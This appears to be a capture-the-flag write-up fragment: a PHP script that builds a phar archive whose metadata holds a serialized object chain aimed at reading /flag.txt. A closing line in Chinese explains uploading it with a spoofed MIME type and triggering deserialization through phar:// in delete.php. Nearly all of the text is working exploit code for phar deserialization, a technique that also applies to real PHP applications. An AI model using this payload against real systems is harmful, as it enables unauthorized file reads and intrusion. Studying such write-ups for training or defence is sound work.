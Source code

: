 ```
<?php
class User {
    public $db;
}
 
class File {
    public $filename;
}
class FileList {
    private $files;
    private $results;
    private $funcs;
 
    public function __construct() {
        $file = new File();
        $file->filename = '/flag.txt';
        $this->files = array($file);
        $this->results = array();
        $this->funcs = array();
    }
}
 
 
@unlink("phar.phar");
$phar = new Phar("a.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$o = new User();
$o->db = new FileList();
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```

生成phar文件之后，抓包改MIME，在delete.php使用phar://文件名触发，读取flag。